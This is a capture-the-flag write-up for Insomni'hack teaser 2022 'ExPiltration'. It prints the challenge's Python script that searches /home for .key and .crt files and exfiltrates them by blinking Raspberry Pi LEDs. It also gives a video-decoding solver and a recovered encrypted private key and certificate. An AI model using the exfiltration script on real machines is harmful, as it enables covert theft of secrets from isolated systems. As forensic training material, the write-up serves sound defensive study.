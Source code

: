 ```yaml
---
title: Insomni'hack teaser 2022 – ExPiltration
date: '2022-01-30'
draft: false
authors: ['blueset']
tags: ["Insomni'hack teaser 2022", 'Misc', 'Python', 'CV', 'Video', 'Binary']
summary: 'Leak data via LED lights.'
---
```

## ExPiltration
> by Kev1n
>
> Oh shit.. (!) Our network has been compromised and data stored on an air-gaped device stolen but we don't know exactly what has been extracted and how? We have 24/7 video surveillance in the server room and nobody has approched the device.. Here is all I have, could you please give us a hand?
>
> [forensic-data.zip](https://static.insomnihack.ch/media/forensic-data-4e3c106c44132d3fb368ba26675169fe4f10289da7bd637c3b3cc0e570579efa.zip)

Download the zip archive and open it to review a huge file structure.

```
Archive:  forensic-data-4e3c106c44132d3fb368ba26675169fe4f10289da7bd637c3b3cc0e570579efa.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  03-19-2022 15:42   forensic-data/
354284310  03-19-2022 15:42   forensic-data/surveillance-camera42-2022.03.19_part8.mp4
(...omitted 3616 files...)
     1322  03-19-2022 15:42   forensic-data/storage/usr/bin/systemupdate.py
---------                     -------
371628093                     3619 files
```

Content of `forensic-data/storage/usr/bin/systemupdate.py`:

```py
import os
import time
import binascii

DELAY = 0.05

def init_leds():
	os.system("echo none > /sys/class/leds/led0/trigger")
	os.system("echo none > /sys/class/leds/led1/trigger")

def restore_leds():
	os.system("echo mmc0 > /sys/class/leds/led0/trigger")
	os.system("echo default-on > /sys/class/leds/led1/trigger")

def text_to_bits(text, encoding='utf-8', errors='surrogatepass'):
    bits = bin(int(binascii.hexlify(text.encode(encoding, errors)), 16))[2:]
    return bits.zfill(8 * ((len(bits) + 7) // 8))

def exfiltrate(data):
	stream = text_to_bits(data)
	for b in stream:
		if b=='0':
			os.system("echo 0 > /sys/class/leds/led0/brightness")
		else:
			os.system("echo 1 > /sys/class/leds/led0/brightness")

		time.sleep(DELAY)
		os.system("echo 1 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)
		os.system("echo 0 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)

def find_scret_file(path):
	files = []
	for r, d, f in os.walk(path):
		for file in f:
			if '.key' in file or '.crt' in file:
				files.append(os.path.join(r, file))

	for f in files:
		print("[+] Secret file discovered ({0}).. starting exfiltration".format(f))
		with open(f, 'r') as h:
			data = h.read()
		exfiltrate(data)

def main():

	init_leds()
	find_scret_file("/home")
	restore_leds()

if __name__ == '__main__':
	main()
```

`forensic-data/surveillance-camera42-2022.03.19_part8.mp4` is an 1-hour video recording a Raspberry Pi with blinking green and red LEDs.

![Screenshot of the video](/static/images/insomnihack-teaser-2022/surveillance-camera42-2022.03.19_part8-0001.png)

Looking at the source code, we can see that the script is encoding files to binary and sending them out through blinking LED lights. What we need to do is to extract the blinking patterns and revert them to the original files.

From online resources about Raspberry Pi, we can know that `led0` is the green LED and `led1` is the red LED.

A Python script can be written to extract the luminance of the LEDs frame-by-frame. The luminance can then be polarized and compared to extract the bits.

```py
import cv2
import tqdm
import bitstring

def rgb_to_luminance(r, g, b):
    return 0.2126 * r + 0.7152 * g + 0.0722 * b

vidcap = cv2.VideoCapture('surveillance-camera42-2022.03.19_part8.mp4')

with tqdm.tqdm(total=vidcap.get(cv2.CAP_PROP_FRAME_COUNT)) as t:
    success, image = vidcap.read()
    t.update(1)
    led0 = []
    led1 = []
    while success:
        led0.append(rgb_to_luminance(*image[550][717]))
        led1.append(rgb_to_luminance(*image[550][735]))
        success, image = vidcap.read()
        t.update(1)

bits_raw = []
start = 0
end = 0
threshold = 210
is_on = True
for i in range(len(led0)):
    if is_on and led1[i] < threshold:
        is_on = False
        end = i
        bits_raw.append(sum(led0[start:end]) / (end - start))
    elif not is_on and led1[i] > threshold:
        is_on = True
        start = i

bits = [0 if i < threshold else 1 for i in bits_raw]

b = bitstring.BitArray(bin="".join(map(str, bits[1:])))
print(b.bytes.decode())
```

Below is a partial visualization of the luminance of the LEDs frame by frame. The part shown below gives bytes `…000 0011 0111 0101 0101 0101 0110 010…`, which is `…7UV…` in ASCII bits.

![Partial visualization of the luminance of the LEDs](/static/images/insomnihack-teaser-2022/visualization-led.png)

A Root Certificate Authority certificate and a private key is found from the extracted data.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,3DCC451E9205CCE3

nDrRqGRPQ2/ngMd3+93aVspUPtLszfEqmBMdY7FGwDOzjR4qW/TAvGutNj5BNNkM
4P1D4+3wNo0vnNCzgBw+MCS6J5Ipo7SV/Gvcg+Y0vzroOdp3q7Qw6FJP0BdCW2y5
khy6K52JwLjfLnekpBGMA/3fl3pzOgKthQqYllFLrJBeNCo8BFSn/PN80oucpBXv
V+F4aFs57dkoPwCvoB7djmLfpTRCOr0j2PeaqKrUq975nt4Ot+iXy6AURCIt7Z9m
sCxU8bwMHIwUqok/VI39UzGO5xTWp1ffrYR1jaDD6WlGSe2duPeG/zeM60E1R8nP
gZpR1zKpH8QOBuVC433glT5LXqfstPmt7MDwnTawkABvFYIElm4Guegm7NdQSPj/
jAXbZRc5Ww7pt2oFcwzW+uXBYEF2g92rxtUDW0wmgTduNASz59OnYEOr5Ly7NQnh
3V+Vcsrgc4Aowi1z6kCpvHoA4Cg7kZanpNguQ6NeXsCNr94P795ffhuRuXOPnwte
pkEpEplOFLOhJgHST/6ACoiJCc4nYuyKBoH07zJ7WHktryT/655EINwuBx5mVoye
2DykTBypxrcJedPBKxSWmAOOY0QnNMABZsOzgPR9wh/uIEw/zInkdTNN0iYpF8TX
EFY0uBjj7IzDQ10Sb9dcnFRB4AFuqOA7GOhh0U7VxZlhtT6UzSb/O+/smNwOD4IU
qj8LVnaZMVW4MmBbEKzsKOGhOvLHrfLVIBFdn5hTHamwS2H87UVXMLtFFPrFz6JC
zHbOb6I2f7gHzvJJPvB4eSMwAZw/iSpRoyJG7PwIKQsb6/GauV7Rfw==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDHDCCAoWgAwIBAgIUTIdoG+aad3eIE+iXDUKZCohVKkQwDQYJKoZIhvcNAQEL
BQAwgZ8xCzAJBgNVBAYTAkNIMQ8wDQYDVQQIDAZHZW5ldmExEDAOBgNVBAcMB1Bh
bGV4cG8xFTATBgNVBAoMDEluc29tbmknaGFjazEhMB8GA1UECwwYSU5Te0Y0ckZy
MG0kcDMzZDBmTDFnaHR9MQ4wDAYDVQQDDAVLZXZpbjEjMCEGCSqGSIb3DQEJARYU
a2V2aW5AaW5zb21uaWhhY2suY2gwHhcNMjAwMzAzMTYxOTE1WhcNMjIxMjIyMTYx
OTE1WjCBnzELMAkGA1UEBhMCQ0gxDzANBgNVBAgMBkdlbmV2YTEQMA4GA1UEBwwH
UGFsZXhwbzEVMBMGA1UECgwMSW5zb21uaSdoYWNrMSEwHwYDVQQLDBhJTlN7RjRy
RnIwbSRwMzNkMGZMMWdodH0xDjAMBgNVBAMMBUtldmluMSMwIQYJKoZIhvcNAQkB
FhRrZXZpbkBpbnNvbW5paGFjay5jaDCBnzANBgkqhkiG9w0BAQEFAAOBjQAwgYkC
gYEAxx9oaesqRe4b0wLER6ppALJYrm5qrWu/uqzgy7qjpDKg5BBSl5F+Y2TgwS09
pW5tBylKr92DES19o4cm/8g1wa0iZ9BDeSvbn8g+rTLGHTgctMW2wUg/SMQ9j/G7
nyr5oMiPkJ69kz1We83RJofCK1w8QZVr7UAwDlC1rR6V1gkCAwEAAaNTMFEwHQYD
VR0OBBYEFA130/zdKufEuzcn+cCVwoO84z7iMB8GA1UdIwQYMBaAFA130/zdKufE
uzcn+cCVwoO84z7iMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZIhvcNAQELBQADgYEA
k0guKE9tSrNYUyeAEsXba15SV0TGg6n+QCD/Co0XvDo7D2yKEfSMnDfjMkv+39E+
U//PN4LT/R6xl2XdqQV1Rk0tFHTrHRzQps/ispaR3lC3VLkx8/KK05eSvKMr1C80
4jzMs6Qw6bT8Dj83eMfjizl3tlE997DgGpruRaOaEOE=
-----END CERTIFICATE-----
```

Save the certificate part to a file, use OpenSSL to inspect it, and find the flag in the Organization Unit field.

```sh
openssl x509 -in root-ca.crt -text -noout
```
